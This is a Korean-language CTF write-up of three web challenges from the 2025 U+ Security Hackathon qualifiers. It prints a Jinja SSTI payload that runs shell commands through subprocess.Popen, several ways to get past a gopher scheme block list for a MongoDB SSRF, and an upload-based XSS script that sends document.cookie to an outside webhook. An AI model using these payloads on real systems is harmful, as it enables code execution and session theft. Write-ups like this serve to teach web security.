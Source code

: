 ```yaml
---
title: 2025 U+ Security Hackathon Quals Write-Up
published: 2025-09-28
description: " "
tags: [CTF_Writeup, lguplus]
category: CTF
draft: false
---
```

## Write-Up

### compound interest
![](./first.png)

메모 기능에서 SSTI가 터져 RCE 할 수 있다

```
{{"".__class__.__base__.__subclasses__()}}
```

subclasses 나열시켜서 `subprocess.Popen` 값 인덱스 찾은 다음에 플래그 읽어오면 된다.

```
{{"".__class__.__base__.__subclasses__()[382]('cat flag.txt',shell=True,stdout=-1).communicate()}}
```

`lguplus2025{ece1436847b6ca03c17cfe98b30c5874de755373aa9ae16e2b32047c02dee73b}`

---

### cowfarm

```js
app.get("/flag", async (req, res) => {
  const { id } = req.query;
  if (!id) {
    return res.status(400).send("ID is required");
  }
  const cow = await Animal.findOne({ id });
  if (!cow) {
    return res.status(404).send("Cow not found");
  }

  if (cow.name !== "cow") {
    return res.status(400).send("Cow is not a cow");
  }

  if (cow.age !== 1) {
    return res.status(400).send("Cow is not 1 year old");
  }

  if (cow.breed !== "super_cow") {
    return res.status(400).send("Cow is not a super cow");
  }

  res.send(`wow, you've got a super cow!! here is your flag: ${process.env.FLAG}`);
});
```

DB에 있는 값이 다음 조건을 만족시키면 플래그를 얻을 수 있다.

```js
app.get("/new_cow", async (req, res) => {
  const { name, age } = req.query;

  if (!name) {
    return res.status(400).send("Name is required");
  }

  if (!age) {
    return res.status(400).send("Age is required");
  }
  try {
    const id = crypto.randomUUID();
    const cow = await Animal.create({ id: id, name: name, age: age, breed: "cow" });
    return res.send(cow);
  } catch (error) {
    return res.status(500).send("Internal server error");
  }

})
```

`name`과 `age`는 임의로 설정할 수 있으나, `breed`를 `super_cow`로 만들긴 어려워보인다.

```js
async function getUrlStatusCode(_url) {
  return new Promise((resolve, reject) => {
    if (_url.toLowerCase().startsWith("gopher://") || _url.toLowerCase().startsWith("telnet://") || _url.toLowerCase().startsWith("file:")) {
      reject(new Error("Protocol not allowed"));
      return;
    }

    const urlBuffer = Buffer.from(url.parse(_url).href);
    
    execFile("curl", ["-w", "%{http_code}", "-o", "/dev/null", "-I", "-L", urlBuffer], (error, stdout, stderr) => {
      if (error) {
        reject(error);
        return;
      }

      const result = stdout;
      resolve(result);
    });
  });
}

app.get("/curl", async (req, res) => {
  const { url } = req.query;
  if (!url) {
    return res.status(400).send("URL is required");
  }

  try {
    const code = await getUrlStatusCode(url);
    return res.send(code);
  } catch (error) {
    console.error(error);
    return res.status(500).send("Internal server error");
  }
});
```

필터링을 적절히 우회해 Mongo DB SSRF를 성공시켜야한다.

다양한 우회방법들이 나왔는데
- `gopher:\\`
- `(BLANK)gopher://`
- `gopher:/`

어느걸 쓰던 간단하게 우회할 수 있다.

`-L` 플래그가 설정 되어 있다는 점을 통해 내 서버로 curl 요청 -> gopher로 리다이렉트 시켜보려했으나 잘 안 되었다.
curl은 -L로 리다이렉트 될 때 처음 입력된 url의 scheme와 redirect 되는 scheme이 같은지 검증하는 절차를 거친다고 한다.

암튼 그래서 결과적으로는 `cow.breed` 값을 수정하는 mongo db raw packet을 wireshark로 tcp dump 딴 후에 gopher로 ssrf 할 수 있었다고 한다.

[2023 Dice CTF](https://www.youtube.com/watch?v=sVtRwp9R-_8)에서 비슷한 기법이 나왔었으니 참고하자

`lguplus2025{4b0158738ba67e82f71d4c3242d89071}`

---

### simple-image-viewer

(본인은 못풀었으나) 간단한 트릭 문제였다.

apache로 돌아가는 Image Viewer 서비스다. 봇이 주어지는걸로 봐서 XSS 해야한다는걸 유추할 수 있다.

코드는 꽤 간단하다.

```js
app.post('/upload', upload.single('image'), (req, res) => {
  if (!req.file) {
    return res.status(400).send('No file uploaded.');
  }

  if (req.file.size > 1024 * 1024) {
    return res.status(400).send('File size is too large.');
  }

  if (!['image/png', 'image/jpeg', 'image/gif'].includes(req.file.mimetype)) {
    return res.status(400).send('Invalid file type.');
  }

  //filename.filename.png
  console.log(path.extname(req.file.filename))
  console.log(path.extname(req.file.filename).slice(1))
  if (!['png', 'jpg', 'jpeg', 'gif'].includes(path.extname(req.file.filename).slice(1))) {
    return res.status(400).send('Invalid file extension.');
  }

  res.redirect(`/?image=${req.file.path}`);
});
```

문제 풀어본 사람들은 알겠지만 그냥 XSS 할 벡터가 안보인다.

취약점은 이미지 업로드에서 터진다

https://x.com/YNizry/status/1582733545759330306

해당 게시물에 따르면 apache는 이름이 `.`으로만 되어있는 파일에 대해 Content-Type을 반환하지 않는다고 한다.

따라서 `...png` 같은 이름으로 파일을 업로드하면 이미지로 로드되지 않고 파일 본문을 html로 포함하게 되어 XSS가 가능하다.

```
------WebKitFormBoundaryXWCDORG7efpmqeyr
Content-Disposition: form-data; name="image"; filename="...png"
Content-Type: image/png

<script>location.href="https://ijvxjui.request.dreamhack.games?q="+document.cookie</script>
------WebKitFormBoundaryXWCDORG7efpmqeyr--
```

그대로 제출하면 웹훅으로 플래그 날아온다.

`http://3.36.14.255:3000/report?path=uploads/3f64fdf5-529b-4b00-94c2-e5b90819c473/...png`

![](./webhook.png)

`lguplus2025{50eb1bcbe258aff5e32155c406aa24df}`
